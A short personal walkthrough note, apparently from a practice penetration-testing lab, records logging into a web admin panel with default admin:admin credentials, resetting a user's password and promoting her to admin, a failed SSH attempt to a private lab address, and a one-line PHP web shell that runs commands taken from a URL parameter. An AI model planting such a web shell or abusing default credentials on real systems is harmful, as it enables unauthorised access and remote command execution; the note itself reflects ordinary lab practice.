 Logged in as admin 

![[PG/Linux/attachments/Pasted image 20250711100726.png]]
- valid security warning

Immediately see a user: dora

![[PG/Linux/attachments/Pasted image 20250711100806.png]]

Can I change her password?

![[PG/Linux/attachments/Pasted image 20250711100848.png]]

Gave her a new password (dora) and made her an admin

![[PG/Linux/attachments/Pasted image 20250711100952.png]]
- seems like it did save 

# SSH with little hope

```
ssh dora@192.168.236.16
```

![[PG/Linux/attachments/Pasted image 20250711101119.png]]
- nope


# Poking around 

Seems like I may be able to save a php reverse shell or something

![[PG/Linux/attachments/Pasted image 20250711101237.png]]

Let's see what ftp mode looks like 

![[PG/Linux/attachments/Pasted image 20250711101422.png]]

Another login

![[PG/Linux/attachments/Pasted image 20250711101446.png]]
- admin:admin again

![[PG/Linux/attachments/Pasted image 20250711101513.png]]
- ftp server isn't running

I'm going to try to save a web shell.

```
<?php system($_GET['cmd']); ?>
```

![[PG/Linux/attachments/Pasted image 20250711101817.png]]
